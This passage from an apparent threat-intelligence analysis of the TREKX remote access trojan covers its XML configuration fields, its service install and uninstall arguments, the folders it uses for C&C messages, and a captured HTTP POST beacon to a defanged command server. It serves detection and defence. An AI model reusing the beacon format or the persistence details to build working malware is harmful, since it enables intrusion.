 


dt5


Value used in the C&C message processing code




dt6


Value used in the C&C message processing code




dt7


Service name and service display name




dt8


Service description



Scroll to view full table 
Table 1: Configuration file parameters
TREKX also looks for the fields dt91, dt92 and dt93 in the XML configuration. However, the decrypted XML configuration does not have these fields. If the malware is executed with the i argument, the malware will create and start a service with properties based on the dt7 and dt8 fields of the XML configuration. If the malware is executed with the u argument, the malware will stop and delete the service specified in the XML configuration.
One interesting observation noted by IRIS researchers was the similarity between the TREKX RAT and configuration file from our analysis and those reported as the GoogleDrive RAT by Nyotron. Both have the same command options (install/uninstall) and similar configuration delimiters (dt#). The difference is that instead of sending HTTP requests to operator-controlled domain names, the GoogleDrive RAT used hardcoded Google account credentials to access resources hosted on Google Drive.
Command-and-Control Messages
Once TREKX is running as a service, it creates two folders with the following names:

<;MalwareFolder>;\{75f61ded-9e15-3af2-2939-ab9f8e94124f}
<;MalwareFolder>;\{521f596c-369c-21dd-f55e-4029ed9e2092}

The first folder contains the C&C messages received from the C&C server. The second folder contains the C&C messages to be sent to the C&C server.
To receive commands from the C&C server, the malware contacts the C&C server via HTTP POST requests similar to the following format:
POST /comm.aspx HTTP/1.1
Accept: image/gif, image/jpeg, application/xhtml+xml, application/xml;q=0.9, * /*;q=0.8
Content-Type: multipart/form-data; boundary=—————————2666045ed71dc
Accept-Language: en-US,en;q=0.5
Cache-Control: no-cache
Content-Length: 236
User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 6.1; Win64; x64; Trident/4.0; .NET CLR 2.0.50727; SLCC2; .NET CLR 3.5.30729; .NET CLR 3.0.30729; Media Center PC 6.0; InfoPath.3)
Host: sabre-css[.]com
Connection: Close
—————————–2666045ed71dc
Content-Disposition: form-data; name=”File1″; filename=”vf001″
Content-Type: application/octet-stream
<;… Generated Data …>;
—————————–2666045ed71dc–
The received encrypted C&C message is stored in the following file:
<;MalwareFolder>;\{75f61ded-9e15-3af2-2939-ab9f8e94124f}\x<;HexCharacters>;.tmp
Example: C:\<;MalwareFolder>;\{75f61ded-9e15-3af2-2939-ab9f8e94124f}\x47550c0306718371.tmp